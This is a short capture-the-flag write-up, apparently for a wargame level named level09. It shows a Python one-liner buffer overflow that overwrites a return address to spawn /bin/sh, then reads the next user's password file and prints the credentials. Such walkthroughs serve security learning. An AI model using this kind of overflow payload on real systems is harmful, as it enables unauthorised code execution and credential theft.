 # Level09

> For introductory information on this operating system and binary securities, check [here](./analysis.md).

Using [`gdb`](https://linux.die.net/man/1/gdb), we can dig through the binary to understand what's going on (full analysis [here](./gdb.md)).

```shell
  $> (python -c "print '\x90' * 40 + '\xff\n' + '\x90' * 200 + '\x00\x00\x55\x55\x55\x55\x48\x8c'[::-1] + '\n/bin/sh'"; cat) | ./level09 
  --------------------------------------------
  |   ~Welcome to l33t-m$n ~    v1337        |
  --------------------------------------------
  >: Enter your username
  >>: >: Welcome, �����������������������������������������>: Msg @Unix-Dude
  >>: >: Msg sent!
  cat /home/users/end/.pass
  j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```

So next user credentials pair is `end:j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE`.

Check [here](../source.c) for reproduction source-code of this binary.